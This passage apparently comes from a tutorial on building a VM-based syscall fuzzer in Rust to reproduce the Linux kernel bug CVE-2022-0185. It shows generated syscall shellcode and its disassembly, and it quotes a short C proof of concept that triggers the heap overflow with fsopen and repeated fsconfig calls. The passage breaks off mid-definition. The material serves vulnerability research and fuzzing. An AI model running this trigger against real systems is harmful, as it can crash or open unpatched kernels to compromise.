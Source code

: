 ```rust
self.syscall_5(fuzzvm, 0x123, Argument::Pointer(0x1234_0000), 2, 3, 4, 5)?;
fuzzvm.print_disasm(VirtAddr(SHELLCODE), fuzzvm.cr3(), 0x10)?;
```

Will write the following assembly into the guest:

```text
0x00007ffff72b4000: 49bf0000341200000000     | mov r15, 0x12340000
0x00007ffff72b400a: 498b3f                   | mov rdi, qword ptr [r15]
0x00007ffff72b400d: 48be0200000000000000     | mov rsi, 0x2
0x00007ffff72b4017: 48ba0300000000000000     | mov rdx, 0x3
0x00007ffff72b4021: 49ba0400000000000000     | mov r10, 0x4
0x00007ffff72b402b: 49b80500000000000000     | mov r8, 0x5
0x00007ffff72b4035: 48b82301000000000000     | mov rax, 0x123
0x00007ffff72b403f: 0f05                     | syscall
0x00007ffff72b4041: 49bf00403bf7ff7f0000     | mov r15, 0x7ffff73b4000
0x00007ffff72b404b: 498907                   | mov qword ptr [r15], rax
```

If needed later, the return value from this function is stored in `0x7ffff73b4000`.

With allocation in place, we can now look at the vulnerability we want to replicate to know which syscalls we want to generate.

## Syscall generation

The proof of concept that we are looking to emulate is below (from the [reference](https://www.willsroot.io/2022/01/cve-2022-0185.html)).
The only difference is we will be opening `debugfs` instead of `9p` for this example.

```c
int main(void)
{
        char* val = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA";
        int fd = 0;
        fd = fsopen("debugfs", 0);
        if (fd < 0) {
                puts("Opening");
                exit(-1);
        }

        for (int i = 0; i < 5000; i++) {
                fsconfig(fd, FSCONFIG_SET_STRING, "\x00", val, 0);
        }
        return 0;
}
```

There are only two syscalls needed to trigger the vulnerability: `fsopen` and `fsconfig`.

Let's begin with creating the set of available syscalls along with their arguments:

```rust
/// A collection of generated [`Syscall`]s
#[derive(Debug, Clone, Hash, Eq, PartialEq, Default, Serialize, Deserialize)]
pub struct Syscalls {
    data: Vec<Syscall>,
}

/// A returned file descriptor from `fsopen`
#[derive(Debug, Clone, Hash, Eq, PartialEq, Serialize, Deserialize)]
struct FileDescriptor(usize);

/// The only FsConfig command we currently support
#[derive(Debug, Copy, Clone, Hash, Eq, PartialEq, Serialize, Deserialize)]
#[repr(u64)]
enum FsConfigCommand {
```